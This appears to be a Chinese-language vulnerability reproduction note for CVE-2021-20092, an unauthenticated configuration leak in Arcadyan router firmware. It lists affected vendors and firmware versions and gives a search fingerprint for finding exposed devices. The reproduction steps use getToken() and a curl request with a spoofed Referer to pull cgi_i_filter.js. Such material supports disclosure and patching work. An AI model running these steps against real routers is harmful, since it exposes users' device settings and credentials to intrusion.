 # 

# Arcadyan固件 cgi_i_filter.js 配置信息泄漏漏洞 CVE-2021-20092

## 漏洞描述

Buffalo WSR-2533DHPL2 固件版本 <= 1.02 和 WSR-2533DHP3 固件版本 <= 1.24 的 Web 界面没有正确限制未经授权的参与者对敏感信息的访问。

## 漏洞影响

| **Vendor**          | **Device**                         | **Found on version** |
| ------------------- | ---------------------------------- | -------------------- |
| ADB                 | ADSL wireless IAD router           | 1.26S-R-3P           |
| Arcadyan            | ARV7519                            | 00.96.00.96.617ES    |
| Arcadyan            | VRV9517                            | 6.00.17 build04      |
| Arcadyan            | VGV7519                            | 3.01.116             |
| Arcadyan            | VRV9518                            | 1.01.00 build44      |
| ASMAX               | BBR-4MG / SMC7908 ADSL             | 0.08                 |
| ASUS                | DSL-AC88U (Arc VRV9517)            | 1.10.05 build502     |
| ASUS                | DSL-AC87VG (Arc VRV9510)           | 1.05.18 build305     |
| ASUS                | DSL-AC3100                         | 1.10.05 build503     |
| ASUS                | DSL-AC68VG                         | 5.00.08 build272     |
| Beeline             | Smart Box Flash                    | 1.00.13_beta4        |
| British Telecom     | WE410443-SA                        | 1.02.12 build02      |
| Buffalo             | WSR-2533DHPL2                      | 1.02                 |
| Buffalo             | WSR-2533DHP3                       | 1.24                 |
| Buffalo             | BBR-4HG                            |                      |
| Buffalo             | BBR-4MG                            | 2.08 Release 0002    |
| Buffalo             | WSR-3200AX4S                       | 1.1                  |
| Buffalo             | WSR-1166DHP2                       | 1.15                 |
| Buffalo             | WXR-5700AX7S                       | 1.11                 |
| Deutsche Telekom    | Speedport Smart 3                  | 010137.4.8.001.0     |
| HughesNet           | HT2000W                            | 0.10.10              |
| KPN                 | ExperiaBox V10A (Arcadyan VRV9517) | 5.00.48 build453     |
| KPN                 | VGV7519                            | 3.01.116             |
| O2                  | HomeBox 6441                       | 1.01.36              |
| Orange              | LiveBox Fibra (PRV3399)            | 00.96.00.96.617ES    |
| Skinny              | Smart Modem (Arcadyan VRV9517)     | 6.00.16 build01      |
| SparkNZ             | Smart Modem (Arcadyan VRV9517)     | 6.00.17 build04      |
| Telecom (Argentina) | Arcadyan VRV9518VAC23-A-OS-AM      | 1.01.00 build44      |
| TelMex              | PRV33AC                            | 1.31.005.0012        |
| TelMex              | VRV7006                            |                      |
| Telstra             | Smart Modem Gen 2 (LH1000)         | 0.13.01r             |
| Telus               | WiFi Hub (PRV65B444A-S-TS)         | v3.00.20             |
| Telus               | NH20A                              | 1.00.10debug build06 |
| Verizon             | Fios G3100                         | 2.0.0.6              |
| Vodafone            | EasyBox 904                        | 4.16                 |
| Vodafone            | EasyBox 903                        | 30.05.714            |
| Vodafone            | EasyBox 802                        | 20.02.226            |

## 网络测绘

```
app="Arcadyan-httpd-1.0" 
```

## 漏洞复现

登录页面

![img](./images/202202162258993.png)

输入任意密码跳转到 loginerror.html 页面，使用 console 调用 getToken() 获取重要参数

![img](./images/202202162258052.png)

_tn 参数设置为刚刚获取到的参数, 使用curl 发送请求包获取敏感信息

```php
curl --include "http://xxx.xxx.xxx.xxx/cgi/cgi_i_filter.js?_tn=348876758" -H "Referer: http://xxx.xxx.xxx.xxx/loginerror.html"
```

![img](./images/202202162258902.png)
